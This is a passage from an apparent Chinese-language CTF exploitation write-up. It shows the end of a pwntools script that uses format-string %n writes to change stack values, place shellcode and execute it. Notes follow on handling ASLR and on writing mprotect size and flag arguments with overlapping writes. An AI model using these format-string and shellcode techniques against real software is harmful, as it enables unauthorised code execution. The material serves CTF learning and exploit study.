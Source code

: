 ``` python
p.sendline(payload)
payload = p32(stack_ret+0x2) + '%x%x' + '%' + str((stack_buff>>16)-19) + 'x%n'
p.recvuntil('KEY:')
p.sendline(payload)
#write shellcode
payload = 'A'*0x20 + shellcode
p.recvuntil('KEY:')
p.sendline(payload)
#exec shellcode
payload = str_enter
p.recvuntil('KEY:')
p.sendline(payload)
p.recvuntil('okey,you entered it.')
print 'Moe> exec shellcode...'

p.interactive()
```

## 0x02 Notes

### 1. exp有个部分会检测一个数据的低2字节是否为零，否则退出 [line 41~44]

这个是后来才发现的致命问题。主要是因为，这个数据是栈的一个地址，因为ASLR，地址会随机变化。而exp全程是依靠格式化字符串进行写入的。有一种情况就是正好这个地址低两字节是零(0xFFFF0000)，而全零是很难写入的(可以做到，见下面关于"参数flag的写入")，要是仍旧依赖非零的预定方法，会导致奇怪的数据写入(之前就因为这个问题被困惑了好久)。

要是别的函数就算了，但这个参数用于mprotect()的执行，不允许参数1bit的偏差(见Learn部分的"mprotect()")。所以，熟练的办法是干脆退出：抛弃这次执行。再开一让ASLR分配个新地址即可(一次不行就两次，两次不行就双线程...)。

### 2. flag参数的写入 [line 74~80]

size的值是固定的：0x1000。虽然存在地位要写零的问题，但是因为程序本身的逻辑，size的地址的数值默认为0，所以只要正常的高位写入`00 01`(len=0x100)即可。

flag参数也是个固定值：111b(0x7)。但是经过测试，每次至少写入0x1b的数值。办法就是用错位的办法：

```
<---size-->  <--flag--->
00 01 00 00  07 00 00 00
00 01 02 03  04 05 06 07 <-tags
low addr------>high addr
```

上面是写入成功的栈上数值状态。正常的话是在`07`的地址进行写入。这样应该输入len=0x07的数值，但是如上所说，做不到。我们可以在`07`前面的`00`(tags=03)的地址进行写入，这样就构成了`00 07 00 00`(len=0x700)，变成了一个舒服的数值。

但是：问题还没解决。flag处默认是有完整的4字节数据的，后面存在无法写0问题(最少写len=0x1b嘛)。方法就是相互覆盖：

1. 第一次，我们在`07`后面后面的`00`(tag=06)地址处随便写入大数值(比如最小值0x1b00)，保证最后一字节为0
2. 第二次，我们用错位法写入`07`，这时因为格式化字符串特性，`07`后面的两个字节(tags=05&06)又被盖为0。这样地位全0达成。

```
    00 01 00 00  xx xx xx xx
--> 00 01 00 00  xx xx 1b 00
--> 00 01 00[00  07 00 00]00
//方括号内即写入07覆盖的数据区
result： 00 01 00 00 07 00 00 00
```
So，有时候麻烦也是一种特性，善加利用反而是key牌。
